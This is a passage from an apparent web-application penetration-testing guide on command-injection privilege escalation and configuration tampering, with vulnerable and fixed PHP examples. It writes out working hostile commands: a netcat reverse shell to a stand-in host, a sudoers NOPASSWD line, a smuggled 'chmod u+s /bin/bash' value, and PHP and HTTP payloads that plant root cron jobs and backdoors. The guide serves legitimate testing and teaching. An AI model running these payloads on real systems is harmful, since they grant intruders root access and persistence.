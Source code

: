 3. Check responses:
   - Look for elevated access or errors.
   - Test: `echo 'attacker ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers`.
4. Use Netcat to exploit:
   ```bash
   nc example.com 4444 -e /bin/bash
   ```

**Example Vulnerable Code (PHP)**:
```php
$file = $_POST['file'];
system("save_file $file");
```
Test: `file=;chmod u+s /bin/bash`
Result: Elevates bash.

**Example Secure Code (PHP)**:
```php
$file = basename($_POST['file']);
if (preg_match('/^[a-zA-Z0-9-]+$/', $file)) {
    system("save_file " . escapeshellarg($file));
} else {
    die("Invalid file");
}
```
Test: No escalation.

**Remediation**:
- Restrict permissions:
  ```bash
  chmod 750 /bin/bash
  ```
- Validate inputs:
  ```php
  if (strpos($file, ';') !== false) die("Invalid input");
  ```

**Tip**: Save escalation evidence in a report.

### 6. Test for Configuration Manipulation

**Objective**: Verify if inputs can alter server or application configurations to enable future attacks.

**Steps**:
1. Inject configuration payloads:
   - Test: `<?php file_put_contents('/etc/crontab', '0 * * * * root /tmp/malicious.sh\n', FILE_APPEND); ?>`
   - Use Burp:
     ```http
     POST /upload HTTP/1.1
     Host: example.com
     Content-Type: application/x-www-form-urlencoded
     file=config.php&content=<?php file_put_contents('/etc/crontab', '0 * * * * root /tmp/malicious.sh\n', FILE_APPEND); ?>
     ```
2. Check persistence:
   - Verify cron jobs (gray-box): `crontab -l`.
   - Test: `echo '*/1 * * * * /tmp/backdoor.sh' > /etc/cron.d/attack`.
3. Monitor behavior:
   - Look for scheduled task execution.
   - Test: `<?php ini_set('open_basedir', '/tmp'); ?>`.
4. Use Netcat to confirm:
   ```bash
   nc -l 4444
   ```
